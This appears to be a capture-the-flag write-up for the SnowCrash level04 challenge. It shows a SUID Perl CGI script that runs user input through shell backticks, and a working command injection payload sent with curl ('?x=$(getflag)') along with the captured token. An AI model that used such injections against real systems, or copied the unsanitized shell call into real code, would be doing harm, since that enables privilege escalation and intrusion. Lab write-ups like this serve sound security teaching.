 1. **Searching for files**

    We found another file with SUID permissions:
    ```bash
    level04@SnowCrash:~$ ll
    [...]
    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
    [...]
    ```  
    Using the `strings` command, we found that this is a Perl script functioning as a CGI (Common Gateway Interface) web application and has a `command injection` vulnerability:
    ```bash
    level04@SnowCrash:~$ strings level04.pl 
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    x(param("x"));
    ```   
    `localhost:4747`: Suggests that this script runs on a local web server on port 4747.
    `Vulnerable function`: Defines a function `x` that takes an argument, stores it in `$y`, and executes the command `echo $y 2>&1` using backticks (`), which allow shell command execution.

2. **Exploitation**

    This command injection vulnerability is straightforward to exploit. Since the script runs with the permissions of the `flag04` user (due to the SUID bit) and uses unsanitized user input in a shell command, we can inject our own commands.
    - Check if the web server is running:
    ```bash
    level04@SnowCrash:~$ netstat -tuln | grep 4747
    tcp6       0      0 :::4747                 :::*                    LISTEN  
    ```  
    Next, inject the `getflag` command:
    ```bash
    level04@SnowCrash:~$ curl 'http://localhost:4747/?x=$(getflag)'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ```



